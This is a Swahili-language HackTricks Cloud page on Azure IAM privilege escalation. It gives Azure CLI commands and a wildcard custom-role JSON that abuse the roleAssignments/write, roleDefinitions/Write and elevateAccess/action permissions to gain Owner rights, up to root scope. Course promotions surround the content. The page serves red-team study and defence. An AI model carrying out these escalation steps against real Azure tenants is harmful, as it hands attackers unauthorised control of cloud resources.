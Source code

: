 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Kwa maelezo zaidi angalia:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Ruhusa hii inaruhusu kupeana majukumu kwa wakuu juu ya eneo maalum, ikimruhusu mshambuliaji kupandisha hadhi kwa kujipatia jukumu lenye mamlaka zaidi: 

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Ruhusa hii inaruhusu kubadilisha ruhusa zilizotolewa na jukumu, ikimruhusu mshambuliaji kupandisha hadhi kwa kutoa ruhusa zaidi kwa jukumu aliloteua.

Unda faili `role.json` yenye **maudhui** yafuatayo:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Kisha sasisha ruhusa za jukumu kwa ufafanuzi wa awali ukitumia:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Hii ruhusa inaruhusu kuinua mamlaka na kuwa na uwezo wa kutoa ruhusa kwa mtu yeyote kwa rasilimali za Azure. Imeandaliwa kutolewa kwa Wasimamizi wa Kimataifa wa Entra ID ili waweze pia kusimamia ruhusa juu ya rasilimali za Azure.

{% hint style="success" %}
Nadhani mtumiaji anahitaji kuwa Msimamizi wa Kimataifa katika Entra ID ili wito wa kuinua ufanye kazi.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

